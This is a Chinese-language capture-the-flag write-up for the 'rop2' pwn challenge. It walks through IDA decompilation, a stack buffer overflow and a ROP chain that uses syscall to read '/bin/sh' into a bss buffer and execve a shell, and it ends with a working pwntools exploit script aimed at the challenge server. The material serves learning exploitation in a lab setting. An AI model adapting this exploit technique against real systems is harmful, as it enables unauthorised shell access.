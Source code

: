 ```c
```

注意到似乎 IDA 没能够识别出 `v4` 到 `v14` 的变量类型。调整之后是这个样子的：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[43]; // [esp+5h] [ebp-33h]

  alarm(0x1Eu);
  strcpy(v4, "Can you solve this?\nGive me your ropchain:");
  syscall(4, 1, v4, 42);
  overflow();
  return 0;
}
```

`syscall()` 是什么函数？查 `man` 可以知道调用方法。第 7 行大意为 `write(1, v4, 42)`。

看一下 `overflow()`：

```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  syscall(3, 0, &v1, 1024);
  return syscall(4, 1, &v1, 1024);
}
```

显然，该程序尝试读入 1024 字节数据到 `v1`，然后原样输出，但是显然 `v1` 是装不下的。首先算偏移 `0xC + 0x4 = 16`。

这一次没法直接用 `ROPgadget` 构造 ropchain 了。考虑最终使用 `syscall()` 执行命令，可知 `execve()` 的编号为 11，所以我们要想办法运行 `syscall(11, "/bin/sh", 0, 0)`。文件中没有字符串 `"/bin/sh"`，但是 bss 段中有一块很大的 `some_buffer`。所以我们的思路是：

- 首先利用 `syscall()` 调用 `read`，从标准输入读入 `/bin/sh`，写入 `some_buffer`。执行完之后呢？没事，再执行一遍 `overflow()` 就行。
- 然后利用 `syscall()` 调用 `execve`，获取 shell。

所以我们构造的 payload 大致如下：

```
16 * 'a' + syscall_plt + overflow_plt + 3 + 0 + some_buffer + 7
```

然后输入 `/bin/sh`，之后

```
16 * 'a' + syscall_plt + 4 * 'a' + 11 + some_buffer + 0 + 0
```

Payload:

```python
from pwn import *

context.log_level = "debug"

# p = process("./rop2")
p = remote("hackme.inndy.tw", 7703)

syscall_plt = 0x8048320
overflow_plt = 0x08048454
some_buffer = 0x0804a040

payload1 = flat([16 * 'a', syscall_plt, overflow_plt, 3, 0, some_buffer, 7])
payload2 = flat([16 * 'a', syscall_plt, 4 * 'a', 11, some_buffer, 0, 0])

p.sendafter(":", payload1)
p.send("/bin/sh")
p.sendafter(":", payload2)
```
